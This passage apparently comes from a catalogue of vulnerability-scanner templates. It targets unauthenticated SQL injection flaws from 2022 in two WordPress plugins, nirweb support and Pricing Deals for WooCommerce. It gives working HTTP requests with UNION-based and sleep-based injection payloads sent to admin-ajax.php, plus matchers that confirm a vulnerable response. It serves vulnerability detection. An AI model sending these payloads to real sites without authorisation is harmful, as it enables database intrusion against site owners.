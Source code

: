 - severity - critical
- tags - cve,cve2022,wordpress,wp-plugin,wp,sqli,wpscan,nirweb-support,unauth

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=answerd_ticket&id_form=1 UNION ALL SELECT NULL,NULL,md5({{num}}),NULL,NULL,NULL,NULL,NULL-- -

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5(num)}}

**Type - status**

- status
  1. 200

---

# Pricing Deals for WooCommerce \< 2.0.3 - Unauthenticated SQL Injection

## Description

- The Pricing Deals for WooCommerce WordPress plugin through 2.0.2.02 does not properly sanitise and escape a parameter before using it in a SQL statement via an AJAX action available to unauthenticated users, leading to an unauthenticated SQL injection.

- severity - critical
- tags - cve,cve2022,sqli,wpscan,wordpress,wp-plugin,wp,pricing-deals-for-woocommerce,unauth

## Requests

### Step - 1

```
@timeout: 15s
GET /wp-admin/admin-ajax.php?action=vtprd_product_search_ajax&term=aaa%27+union+select+1,sleep(6),3--+- HTTP/1.1
Host: {{Hostname}}

```
